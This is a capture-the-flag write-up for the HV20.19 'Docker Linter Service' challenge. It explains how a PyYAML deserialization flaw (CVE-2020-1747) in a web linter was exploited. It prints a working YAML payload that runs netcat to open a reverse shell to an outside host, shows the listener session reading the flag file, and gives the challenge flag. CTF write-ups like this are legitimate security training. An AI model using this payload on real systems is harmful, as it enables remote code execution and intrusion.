

[← Day 18](../day18/) / [↑ TOC](../README.md) / [→ Day 20](../day20/)


# Day 19 / HV20.19 Docker Linter Service


## Challenge

<!-- ...10....:...20....:...30....:...40....:...50....:...60....:...70....:. -->
* Author: The Compiler ([@the_compiler](https://twitter.com/the_compiler), 
                        <https://bruhin.software/>)
* Tags:   `#web-security` `#exploitation`
* Level:  Hard

Docker Linter is a useful web application ensuring that your Docker-related
files follow best practices. Unfortunately, there's a security issue in there...

### Requirements

This challenge requires a reverse shell. You can use the provided Web Shell or
the VPN to solve this challenge (see `RESOURCES` on top).

### Resources

* Web Shell v. 2
* Docker Linter Service
* Student VPN instructions


## Solution

Here is a screenshot of the _Docker Linter Service_ …

|  |
|-----------------------------------|

<!-- ...10....:...20....:...30....:...40....:...50....:...60....:...70....:. -->
As the name implies, different kind of _[Docker]_ files can be uploaded to the
web service in order to [lint] them, meaning statically check their validity.
Posting an arbitrary string like `ladida` instead of an actual _Docker_ file is
sufficient to get a list of the involved tools and libraries in the server …

[Docker]: https://en.wikipedia.org/wiki/Docker_(software)
[lint]: https://en.wikipedia.org/wiki/Lint_(software)

* `Dockerfile`
    * `hadolint`
    * `dockerfile_lint`
    * `dockerlint.js`

* `docker-compose.yml`
    * `Basic syntax check`
    * `yamllint`
    * `docker-compose`

* `.env files`
    * `dotenv-linter`

After a lot of trial and error attacking the python YAML implementation turned
out to be the right way. A [PoC (CVE-2020-1747)] about the attack/vulnerability
is available on the web.

[PoC (CVE-2020-1747)]: https://2130706433.net/blog/pyyaml/

The attack works by exploiting a deserialization vulnerability in the PyYAML
library which allows arbitrary code execution and thus including setting up a
reverse shell.

The payload is constructed according to the [script gist] available on the same
webpage as the PoC and a [cheat sheet kinda resource for reverse shells]\:

[script gist]: https://gist.github.com/adamczi/23a3b6d4bb7b2be35e79b0667d6682e1
[cheat sheet kinda resource for reverse shells]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp

```yaml
!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('nc 10.13.0.6 4242 -e /bin/sh')"
```

|  |
|-----------------------------|

On the listening end there is a Linux VM connected via a VPN and waiting for
an incoming connection on port 4242. Due to the nature of the reverse shell, it
does not show shell prompts. But type echoing and printing to standard out work
just fine …

```sh
# nc -l -p 4242
echo ""; ls

app.py
bin
dockerfile_lint_rules
flag.txt
linting.py
node_modules
package-lock.json
requirements.txt
static
templates

cat flag.txt
HV20{pyy4ml-full-l04d-15-1n53cur3-4nd-b0rk3d}
```

--------------------------------------------------------------------------------

Flag: `HV20{pyy4ml-full-l04d-15-1n53cur3-4nd-b0rk3d}`

[← Day 18](../day18/) / [↑ TOC](../README.md) / [→ Day 20](../day20/)
